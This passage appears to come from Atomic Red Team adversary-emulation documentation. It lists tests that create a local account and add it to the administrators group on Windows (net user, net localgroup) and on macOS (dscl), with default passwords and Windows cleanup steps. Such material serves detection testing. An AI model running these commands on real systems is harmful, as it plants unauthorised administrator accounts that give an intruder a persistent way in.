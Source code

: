 **Supported Platforms:** Windows


**auto_generated_guid:** a524ce99-86de-4db6-b4f9-e08f35a47a15





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| password | Password for art-test user | string | -4RTisCool!-321|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user art-test /add
net user art-test #{password}
net localgroup administrators art-test /add
```

#### Cleanup Commands:
```cmd
net localgroup administrators art-test /delete >nul 2>&1
net user art-test /delete >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Create local account with admin privileges - MacOS
After execution the new account will be active and added to the Administrators group

**Supported Platforms:** macOS


**auto_generated_guid:** f1275566-1c26-4b66-83e3-7f9f7f964daa






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
dscl . -create /Users/AtomicUser
dscl . -create /Users/AtomicUser UserShell /bin/bash
dscl . -create /Users/AtomicUser RealName "Atomic User"
dscl . -create /Users/AtomicUser UniqueID 503
dscl . -create /Users/AtomicUser PrimaryGroupID 503
dscl . -create /Users/AtomicUser NFSHomeDirectory /Local/Users/AtomicUser
dscl . -passwd /Users/AtomicUser mySecretPassword
dscl . -append /Groups/admin GroupMembership AtomicUser
```
